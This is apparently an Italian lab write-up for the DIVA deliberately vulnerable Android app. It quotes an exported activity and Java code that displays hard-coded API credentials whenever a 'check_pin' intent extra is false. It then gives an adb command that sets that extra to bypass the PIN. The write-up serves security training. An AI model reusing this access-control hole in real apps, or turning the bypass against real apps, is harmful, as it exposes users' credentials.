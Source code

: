 ## Access Control Issues - Part 2

Codice Vulnerabile:

> app/src/main/AndroidManifest.xml

```
<activity
    android:name=".AccessControl2Activity"
    android:label="@string/d10" >
</activity>
<activity
    android:name=".APICreds2Activity"
    android:label="@string/apic2_label" >
    <intent-filter>
        <action android:name="jakhar.aseem.diva.action.VIEW_CREDS2" />

        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```

> app/src/main/java/jakhar/aseem/diva/APICreds2Activity.java

```
boolean bcheck = i.getBooleanExtra(getString(R.string.chk_pin), true);

if (bcheck == false) {
	// Connect to vendor cloud and send User PIN
	// Get API credentials and other confidential details of the user
	String apidetails = "TVEETER API Key: secrettveeterapikey\nAPI User name: diva2\nAPI Password: p@ssword2";
	// Display the details on the app
	apicview.setText(apidetails);
}
else {
	apicview.setText("Register yourself at http://payatu.com to get your PIN and then login with that PIN!");
	pintext.setVisibility(View.VISIBLE);
	vbutton.setVisibility(View.VISIBLE);
}
```

> app/src/main/res/values/strings.xml

```
<string name="chk_pin">check_pin</string>
```

Exploit:

- `$ adb shell am start -n jakhar.aseem.diva/.APICreds2Activity -a jakhar.aseem.diva.action.VIEW_CREDS2 --ez check_pin false`
